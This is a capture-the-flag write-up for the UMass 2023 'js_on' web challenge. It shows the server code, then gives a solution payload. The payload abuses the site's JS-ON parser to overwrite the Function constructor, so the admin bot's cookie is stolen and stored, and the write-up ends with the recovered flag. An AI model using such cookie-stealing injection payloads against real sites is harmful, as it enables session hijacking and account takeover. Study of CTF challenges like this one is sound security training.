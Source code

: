 # UMass 2023 - js\_on

## 💙 Description

> Why call it JSON if I can't put my own JS there? Introducing JS-ON! Now you can share your JS with your friends to enjoy next level development!
>
> Bot: [http://bot-json.web.ctf.umasscybersec.org:9000](http://bot-json.web.ctf.umasscybersec.org:9000)
>
> File : [app.js](https://umass-ctf-challenges.s3.amazonaws.com/web/app.js)
>
> Main Site : [http://app-json.web.ctf.umasscybersec.org:3000](http://app-json.web.ctf.umasscybersec.org:3000)

## The Challenge

What we first run into by looking at this challenge is a website that allows you to run code with compiled `JS-ON` for an user.

<figure><img src="../.gitbook/assets/image (1) (1).png" alt=""><figcaption><p>The main website</p></figcaption></figure>

There is also a 'bot' website that seems to run the user's generated code as admin.

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption><p>The Bot website</p></figcaption></figure>

```javascript
// Removed all the imports and basic express stuff to save space

let adminLibs = {};

adminLibs[process.env.ADMIN_ACCOUNT] = {
  "code":`/*
    !!! The best code ever !!!
  */ 
  console.log(1+2);//I think this should output 5
  console.log(flag);//this is my awesome flag`,
  "js-on":{'var_flag':process.env.FLAG}
}


app.use(cookiep());
app.use('/static', express.static('public'))

app.get('/', async (req, res) => {
  let uid = req.cookies.user ? req.cookies.user : '';
  let user = await client.get(uid);
  if(!user){
    uid = uuidv4();
    await client.set(uid,JSON.stringify({
      "code":"console.log(message)",
      "js-on":{'var_message':'Hello World'}
    }))
    res.set({'Set-Cookie':`user=${uid}`});
  }
  res.redirect(`/user/${uid}`);
})

app.get('/code/admin',(req,res)=>{
  let cookie = req.cookies.user;
  if(cookie && cookie === process.env.ADMIN_ACCOUNT){
    return res.json(adminLibs[cookie]);
  }
  res.json({'error':'Did not recieve admin cookie'})
})

app.get('/user/:id',async (req,res)=>{
  let uid = req.params.id ? req.params.id : '';

  let user = await client.get(req.params.id);
  if(!user){
    return res.redirect('/');
  }
  res.sendFile(path.join(__dirname,'public/html/index.html'))
})

app.get('/code/:id',async (req,res)=>{
  let uid = req.params.id; 
  let user = await client.get(uid)
  if(!user){
    return res.json({'error':'Could not find js-on for this'})
  }
  res.json(JSON.parse(user))
})

app.use(express.json());

app.post('/code',async (req,res)=>{
  let uid = req.cookies.user ? req.cookies.user : '';
  let user = await client.get(uid);
  if(!user){
    return res.json({'error':'Could not find js-on for that user!'});
  }
  try{
    req.body['js-on'] = JSON.parse(req.body['js-on'])
  }
  catch(e){
    return res.json({'error':'Failed to parse js-on!'})
  }
  await client.set(req.cookies.user,JSON.stringify(req.body));
  res.json({'success':'JS-ON loaded onto server!'});
})
```

Based on the code provided, the application is a web server that allows users to write JavaScript code and execute it on the server-side using a technology called JS-ON.

The server creates a unique identifier as a cookie for each user that connects to it, and saves the user's code and JS-ON payload in Redis. Users can retrieve their code and payload by specifying their unique identifier in the URL path.

There is also an admin feature that allows a user with a specific cookie to access a pre-defined library of JavaScript code with an embedded flag. However, this feature is protected by a cookie, which is checked against a predefined value that we can't access.

<pre class="language-java"><code class="lang-java"><strong>adminLibs[process.env.ADMIN_ACCOUNT] = {
</strong>  "code":`/*
    !!! The best code ever !!!
  */ 
  console.log(1+2);//I think this should output 5
  console.log(flag);//this is my awesome flag`,
  "js-on":{'var_flag':process.env.FLAG}
}
</code></pre>

## The solution

Looking at the client-side some more, it seems that we can abuse the `func_` keys to cause the JS-ON parser in the browser to overwrite the `Function()` constructor, and then run code without the bot needing to click `Run this code!`

The goal is to POST this to the JS-ON server as a snippet:

{% code overflow="wrap" %}
```json
{"code":"console.log(hello);","js-on":"{\r\n    \"func_Function\": \"let adminCookie = document.cookie;document.cookie = 'user=7ed131b9-415d-465d-8a2b-3ffd68ad4acd; path=/';fetch('/code', { method: 'POST', headers: { 'Content-Type': 'application/json' }, body: JSON.stringify({ code: ace.edit('editor1').getValue(), 'js-on': JSON.stringify({ var_cookie: adminCookie }) }) });\",\r\n    \"func_require\": \";;;\"\r\n}"}
```
{% endcode %}

Then, when the bot opens the page it overwrites the Function then calls it with the second dummy func.

Refresh, then you got the cookie:

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

You can then put this cookie and access the admin snippet:

{% code overflow="wrap" %}
```json
{"code":"/*\n    !!! The best code ever !!!\n  */ \n  console.log(1+2);//I think this should output 5\n  console.log(flag);//this is my awesome flag","js-on":{"var_flag":"UMASS{M4YB3_JS_$h0uld_b3_0FF_BruH_XDDDDDD489253}"}}
```
{% endcode %}
